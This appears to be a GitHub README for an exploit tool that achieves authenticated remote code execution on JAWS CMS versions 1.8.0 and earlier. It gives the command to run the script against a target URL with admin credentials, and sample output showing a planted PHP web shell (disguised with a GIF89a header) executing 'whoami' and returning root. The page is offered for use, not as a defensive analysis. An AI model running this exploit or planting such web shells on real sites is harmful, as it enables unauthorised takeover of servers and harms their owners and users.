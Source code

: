 # Jaws-CMS-RCE
Authenticated RCE JAWS CMS &lt;=1.8.0


python jaws-rce.py
[+]Usage python jaws-rce.py http://victim.com/ admin admin




python jaws-rce.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin
Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/files/cmd47.php?c=whoami
GIF89a
root
